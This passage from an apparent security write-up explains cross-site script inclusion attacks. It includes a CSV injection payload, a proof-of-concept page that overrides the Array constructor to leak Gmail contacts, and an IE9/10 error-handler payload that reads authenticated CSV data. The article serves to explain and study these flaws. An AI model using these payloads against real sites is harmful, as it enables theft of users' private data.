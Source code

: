 In this example, using the `___` columns as injection points and inserting JavaScript strings in their place has the following result.

```txt
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```

[Jeremiah Grossman wrote about a similar vulnerability in Gmail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html) in 2006 that allowed the extraction of user contacts in JSON. In this case, the data was received from Gmail and parsed by the browser JavaScript engine using an unreferenced Array constructor to leak the data. An attacker could access this Array with the sensitive data by defining and overwriting the internal Array constructor like this:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

### 4. Sensitive Data Leakage via JavaScript Runtime Errors

Browsers normally present standardized [JavaScript error messages](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Errors). However, in the case of IE9/10, runtime error messages provided additional details that could be used to leak data. For example, a website `victim.com` serves the following content at the URI `http://victim.com/service/csvendpoint` for authenticated users:

```txt
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```

This vulnerability could be exploited with the following:

```html
<!--error handler -->
<script>window.onerror = function(err) {alert(err)}</script>
<!--load target CSV -->
<script src="http://victim.com/service/csvendpoint"></script>
```
